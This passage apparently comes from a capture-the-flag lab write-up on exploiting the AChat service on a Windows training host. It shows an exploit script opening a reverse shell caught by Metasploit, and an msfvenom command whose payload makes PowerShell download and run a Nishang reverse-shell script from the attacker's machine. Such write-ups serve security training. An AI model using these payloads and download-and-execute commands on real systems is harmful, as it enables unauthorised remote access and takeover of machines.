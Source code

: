 Insert that into the exploit script, and run it:

```

root@kali# python achat-shell-8081.py
---->{P00F}!

```

```

msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.218:8081
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 10.10.10.74
[*] Command shell session 1 opened (10.10.14.218:8081 -> 10.10.10.74:49157) at 2018-06-13 18:33:14 -0400

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>

```

#### alternative method: script + windows cmd + powershell

When working Windows hosts, I typically use the [Nishang](https://github.com/samratashok/nishang) `Invoke-PowerShellTcp.ps1` script to get a shell. We can do that pretty easily here by changing the command from simply launching calc to one that will invoke powershell and have it call to us to get the shell to execute:

```

root@kali# msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.159/Invoke-PowerShellTcp-8082.ps1')" -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python > shellcode
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/unicode_mixed
x86/unicode_mixed succeeded with size 718 (iteration=0)
x86/unicode_mixed chosen with final size 718
Payload size: 718 bytes
Final size of python file: 3442 bytes

```

Put that output into the script, and run it:

```

root@kali# python achat-powershell-80-8082.py
---->{P00F}!

```
